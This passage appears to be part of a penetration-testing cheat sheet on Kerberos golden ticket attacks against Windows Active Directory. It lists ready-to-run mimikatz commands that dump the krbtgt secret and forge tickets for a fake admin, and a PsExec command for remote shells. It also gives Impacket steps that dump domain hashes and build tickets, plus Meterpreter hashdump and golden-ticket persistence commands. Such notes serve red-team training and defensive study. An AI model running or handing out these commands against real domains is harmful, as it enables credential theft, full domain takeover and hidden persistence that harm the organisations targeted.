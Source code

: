 ```
mimikatz # lsadump::lsa [/patch | /inject] /name:krbtgt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain_name> /sid:<sid> /krbtgt:<krbtgt_ntlm_hash> /ptt

mimikatz # kerberos::golden /user:totallylegitadmin /domain:<domain_name> /sid:<sid> /aes256:<aes256_hash> /groups:512,513,519 /startoffset:-1 /endin:2500 /renewmax:3000 /ptt

mimikatz # misc::cmd

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

### 1.2 - Impacket

Get the Domain SID.

`$ lookupsid.py <domain_name>/<username>:<password>@<IP>`

Then dump the hashes.

`$ secretsdump.py -just-dc-ntlm <domain_name>/<username>:<password>@<IP>`

Convert it to golden ticket. Exclude the RID from the last 3 digits.

`$ ticketer.py -nthashes <nt_hash> -domain-sid <sid_user> -domain <domain_name> <username_to_impersonate>`

### 1.3 - Metasploit

#### 1.3.1 - Meterpreter

- Dump the credentials

```
meterpreter > hashdump

meterpreter > run post/windows/gather/smart_hashdump
```

- Create a golden ticket for persistence

`meterpreter > golden_ticket_create -u <username> -d <domain_name> -k <nt_hash> -s <SID> -t /path/to/export/golden_ticket.kirbi`

- List kerberos tickets.

```
msf > klist

meterpreter > kerberos_ticket_list
```

- Pretty sure when you ran the golden_ticket module it should've stored somewhere on `/home/$USER/.msf4/loot/` or `/root/.msf4/loot/`

`meterpreter > kerberos_ticket_use <golden_ticket>`
